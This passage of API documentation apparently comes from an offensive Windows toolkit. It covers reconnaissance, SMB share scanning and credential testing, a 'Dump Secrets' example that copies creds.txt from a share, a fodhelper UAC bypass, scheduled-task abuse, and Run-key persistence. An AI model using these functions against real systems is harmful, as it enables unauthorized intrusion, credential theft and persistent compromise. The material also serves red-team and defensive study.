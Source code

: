 * `enum_users() -> List[str]` – Lists local user accounts.
* `enum_groups() -> Dict[str, List[str]]` – Lists local groups and their members.
* `enum_services() -> List[Dict[str,str]]` – Enumerates services (`Name`, `State`, `StartMode`, `Path`).
* `enum_patches() -> List[Dict[str,str]]` – Lists applied HotFixes (`HotFixID`, `InstalledOn`).

**Example – Service Recon:**

```python
services = WINDOWS.WinRecon.enum_services()
for svc in services:
    if svc["StartMode"] == "Auto":
        print(f'{svc["Name"]} – {svc["State"]}')
```

---

## 26.3 WinShares

* `scan_shares(target: str) -> List[str]` – Discovers SMB shares on `\\target`.
* `access_test(share: str, username: str, password: str) -> bool` – Tests credentials without persistence.
* `download_file(src_path: str, dst_path: str) -> bool` – Grabs a file from a share.

**Example – Dump Secrets:**

```python
shares = WINDOWS.WinShares.scan_shares("192.168.0.50")
if "SecretShare" in shares:
    WINDOWS.WinShares.access_test("192.168.0.50\\SecretShare", "user","pass")
    WINDOWS.WinShares.download_file("\\\\192.168.0.50\\SecretShare\\creds.txt","C:\\temp\\creds.txt")
```

---

## 26.4 Privilege Escalation

* `WinPrivesc.uac_bypass_fodhelper(payload: str) -> None`
* `WinPrivesc.unquoted_service_paths() -> List[str]` – Finds services with insecure paths.
* `WinPrivesc.weak_acl(path: str) -> bool` – Checks if current user can write to `path`.
* `WinPrivesc.schtasks_abuse(name: str, command: str) -> bool` – Creates a task to run on logon.

---

## 26.5 Persistence

* `WinPersistence.add_run_key(name: str, command: str) -> None` – Adds a Run key in HKCU.
* `WinPersistence.add_scheduled_task(name: str, command: str, trigger: str) -> bool` – Schedules a task (ATLOGON, DAILY, etc.).

---

## 26.6 Networking & AV Detection
